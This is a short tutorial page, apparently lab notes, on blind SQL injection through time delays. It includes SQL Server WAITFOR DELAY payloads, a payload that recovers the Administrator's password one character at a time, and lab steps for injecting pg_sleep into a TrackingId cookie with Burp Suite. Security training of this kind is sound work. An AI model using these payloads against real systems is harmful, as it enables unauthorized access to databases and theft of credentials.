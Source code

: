 # Exploiting blind SQL injection by triggering time delays

The techniques for triggering a time delay are specific to the type of database being used. For example, on Microsoft SQL Server,
you can use the following to test a condition and trigger a delay depending on whether the expression is true:
```bash
'; IF (1=2) WAITFOR DELAY '0:0:10'--
```
```bash
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```
1) The first of these inputs does not trigger a delay, because the condition `1=2` is false.
2) The second input triggers a delay of 10 seconds, because the condition `1=1` is true.

Using this technique, we can retrieve data by testing one character at a time:
```bash
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```
## Basic Lab
1) Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie
2) Modify the TrackingId cookie, changing it to: <br> `TrackingId=x'||pg_sleep(10)--`
3) Submit the request and observe that the application takes 10 seconds to respond.
